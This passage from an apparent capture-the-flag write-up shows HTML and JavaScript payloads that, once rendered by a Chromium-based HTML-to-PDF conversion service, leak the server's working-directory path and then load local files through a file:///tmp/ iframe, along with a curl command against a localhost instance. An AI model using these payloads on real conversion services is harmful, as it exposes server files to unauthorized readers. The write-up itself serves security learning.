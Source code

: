 ```html
<p id="path"></p>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
</script>
```

If we convert the above `index.html` file into a PDF file via POST route `/forms/chromium/convert/html`, we can leak the current URL pathname:

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/G0tchaberg)-[2025.03.11|22:33:40(HKT)]
└> curl -s \        
--request POST http://localhost:8642/forms/chromium/convert/html \
--form files=@index.html \
-o output.pdf
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/KalmarCTF-2025/images/Pasted%20image%2020250311223502.png)

Now we successfully leaked `fs.workingDir`! In my case, it's `f2a92410-c4fc-41e2-9c06-0428e25570c2`.

But wait, how can we also leak the random UUID string? Each conversion will generate a different UUID string!

To do so, we can use `<iframe>` HTML element to embed that leaked `fs.workingDir` path: (or using `<meta>` tag to redirect that path)

```html
<p id="path"></p>
<p id="fsWorkingDir"></p>
<iframe id="frame" width="100%" height="300px"></iframe>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
const workingDirectory = currentPath.split('/')[2];
fsWorkingDir.innerText = `fs.workingDir = ${workingDirectory}`;

frame.src = `file:///tmp/${workingDirectory}/`;
</script>
```
